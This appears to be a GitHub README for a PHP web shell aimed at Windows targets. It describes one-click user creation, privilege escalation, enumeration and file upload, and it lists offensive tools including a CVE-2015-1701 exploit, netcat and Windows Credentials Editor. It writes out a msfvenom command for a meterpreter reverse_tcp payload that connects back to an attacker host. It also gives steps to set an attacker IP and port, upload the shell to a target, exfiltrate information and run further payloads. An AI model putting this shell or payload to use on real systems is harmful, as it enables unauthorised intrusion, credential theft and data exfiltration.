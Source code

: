 <h1> The Not-So Simple PHP Command Shell</h1>
<img src="/img/nsscmdshell.png" />
<p>Automates many on target functions. Designed for windows targets. It isn't pretty, but it works as intended. Note that the tools in my quick upload function are not included in this repo as they are the work of other parties. Sources for quick upload files follow: <br>
PsTools: https://download.sysinternals.com/files/PSTools.zip <br>
CVE-2015-1701 Priv Esc(aka Taihou.exe) https://github.com/hfiref0x/CVE-2015-1701<br>
JAWs Enum: https://github.com/411Hall/JAWS/blob/master/jaws-enum.ps1<br>
Netcat for windows: https://github.com/int0x33/nc.exe<br>
Trend Micro Ransomware file Decryptor: <a href="https://powerbox-na-file.trend.org/SFDC/DownloadFile_iv.php?jsonInfo=%7B%22Query%22%3A%22dR%2BBrNMzg9JJ%2BWXagmE3CFGo6KHZSCtPVPWbg7058IWvcyqFByPzp7Z4BbItLT0NsFzkgJ0M94o3bXOPZnUaMn8BheublSy8lx4KW0qoVEoOa5y7oXGHz2cEAVug61PrxdNc4ubF%2F0%2Fo%2F28ETVpeohg%2F1LXEe9WTr%2B226RTY1Fy5cDIFi3jpKceg6BphKyMuDSbSXylWRKdYIpWKpjVQ8C57t%2BsE56nvuvo6MQmfekk4oRgyS03nH6MaTefGu4nx%22%2C%22iv%22%3A%2259e1f948abd6a90359e13f2b04fa37a5%22%7D" target="_blank"> here </a> 
Windows Credentials Editor: https://gitlab.com/kalilinux/packages/wce
DRW Ransomware Decryptor: https://download2.easeus.com/installer_rss_new.php<br>
venom.exe : (sudo) msfvenom -p windows/meterpreter/reverse_tcp LHOST=ATTACKBOXIP LPORT=ATTACBOXPORT -e x86/shikata_ga_nai -f exe -o venom.exe
</p>

<img src="https://github.com/kaotickj/The-Not-So-Simple-PHP-Command-Shell/blob/main/img/nsscmdshelluse.gif" />
<h2>Automates or simplifies many on target enumeration functions. Specifically:</h2>
<ul>
<li>Simple system commands</li>
<li>File upload/download options</li>
<li>One click preset user creation (on compatible targets)</li>
<li>One click Priv Esc for preset user (on compatible targets)</li>
<li>One click user info/ user perm info</li>
<li>One click systeminfo</li>
<li>One Click processes list</li>
<li>And many more...</li>
</ul>

<h2>How to use it</h2>
<p>First, change the variables, "$attackip" and "$attackport" to the appropriate values for YOUR attack machine:</p>
<code>$attackip = "10.0.2.6";</code><br>
<code>$attackport = "8000";</code>

<p>Next, upload the nsscmdshell.php file to the target. Please note that gaining access to the target is beyond the scope of this writing and your responsibility to establish in a manner consistent with established law.  This tool is intended to be used for on target enumeration to gather and exfiltrate information and then to upload and execute tools such as netcat or msvenom payload for further access to the target.  Once you've gained sufficient access to a target to upload the nsscmdshell, no further instruction on using this tool should be needed.  Do not open issues because you don't know how to use this tool.  It works.  Got "Warning: file_get_contents(http://XX.XX.XX.XX:XXXX/filename.ext):failed to open stream: No connetion could be made...." error?  Two possible causes: 1).You didn't set the variables, "$attackip" and "$attackport" to your machine. Fix: ifconfig your ip, and set in nsscmdshell.php lines 10 and 11. 2). The files are not available on the defined server or port, or there is no server running on the defined port. Fix: python3 -m http.server XXXX in a directory containing the files you're attempting to upload.</p>
